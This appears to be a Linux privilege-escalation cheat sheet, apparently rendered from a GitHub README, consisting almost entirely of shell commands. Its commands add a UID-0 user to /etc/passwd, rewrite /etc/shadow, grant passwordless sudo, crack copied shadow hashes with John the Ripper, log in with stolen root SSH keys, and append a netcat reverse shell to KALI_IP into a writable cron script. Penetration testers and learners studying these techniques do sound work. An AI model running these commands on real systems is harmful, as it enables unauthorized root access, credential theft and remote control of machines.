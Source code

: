_**If you can write to /etc/passwd, you can add an arbitrary privileged user**_

```shell
openssl passwd password
echo "root2:COPY_FROM_ABOVE:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
id
```

### writeable /etc/shadow

```shell
# 1 Make the password
mkpasswd -m sha-512 password

# 2 Backup the /etc/shadow
cp /etc/shadow /home/user/shadow.bak

# 3 Change the appropriate line

# 4 Login
su root
```

### writeable sudoers

```shell
echo "`whoami` ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

### readable /etc/shadow

```shell
# 1 Copy /etc/passwd and /etc/shadow to files "passwd.john" and "shadow.john"

# 2 Unshadow
unshadow ./passwd.john ./shadow.john > unshadowed.john

# 3 Crack
john ./unshadowed.john --wordlist=/usr/share/wordlists/rockyou.txt
```

### readable /root ssh keys

```shell
ssh -i root_id_rsa root@`tip`
```

### writable cron script

```shell
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc KALI_IP 443 >/tmp/f" >> user_backups.sh
cat user_backups.sh
```
